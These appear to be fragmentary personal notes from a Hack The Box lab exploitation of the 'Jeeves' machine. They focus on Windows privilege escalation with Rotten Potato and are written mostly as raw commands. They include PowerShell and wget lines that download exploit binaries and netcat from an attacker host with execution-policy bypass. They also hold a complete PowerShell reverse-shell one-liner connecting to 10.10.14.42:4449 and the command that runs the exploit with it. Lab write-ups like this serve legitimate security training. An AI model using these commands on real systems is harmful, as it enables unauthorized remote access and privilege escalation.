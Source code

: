 ```
[*] done
root@kali:~/htb/YoloToolbox/machines/htb/jeeves# 

```

===> Rotten potato

wget https://github.com/breenmachine/RottenPotatoNG/raw/master/RottenPotatoEXE/x64/Release/MSFRottenPotato.exe

(new-object net.webclient).downloadstring('http://10.10.14.32:8000/MSFRottenPotato.exe', 'C:\users\kohsuke\go.exe')

(New-Object Net.WebClient).DownloadFile('http://10.10.14.32:8000/MSFRottenPotato.exe','potato.exe')


(New-Object Net.WebClient).DownloadFile('http://10.10.14.32:8000/nc64.exe','nc.exe')


https://github.com/decoder-it/lonelypotato
wget https://github.com/decoder-it/lonelypotato/raw/master/RottenPotatoEXE/MSFRottenPotato.exe
 

powershell -exec bypass -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.32:8000/MSFRottenPotato.exe','potato2.exe')"

powershell -exec bypass -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.32:8000/reverse.bat','reverse.bat')"
Need incognito...

Ca passe pas...

? https://github.com/ohpe/juicy-potato à tester ?


explications : https://hunter2.gitbook.io/darthsidious/privilege-escalation/token-impersonation

```
cat reverse.bat
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.42',4449);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

C:\Users\Administrator\.jenkins\workspace\bob\potato2.exe t C:\Users\Administrator\.jenkins\workspace\bob\reverse.bat


===> Keepass file

